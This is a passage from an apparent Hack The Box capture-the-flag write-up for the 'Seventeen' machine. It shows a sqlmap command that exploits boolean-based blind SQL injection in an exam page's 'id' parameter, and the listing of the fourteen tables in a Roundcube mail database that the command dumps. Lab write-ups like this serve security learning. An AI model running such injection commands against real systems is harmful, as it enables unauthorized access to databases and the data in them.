 ![](attachments/seventeen_14.png)

![](attachments/seventeen_15.png)

Given the name "roundcubedb" (One that I retrieved ahead), it seems to be related with this mail service.
Let's dump the database.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D roundcubedb --tables

...SNIP...

Database: roundcubedb
[14 tables]
+---------------------+
| cache               |
| session             |
| system              |
| cache_index         |
| cache_messages      |
| cache_shared        |
| cache_thread        |
| contactgroupmembers |
| contactgroups       |
| contacts            |
| dictionary          |
| identities          |
| searches            |
| users               |
+---------------------+
```
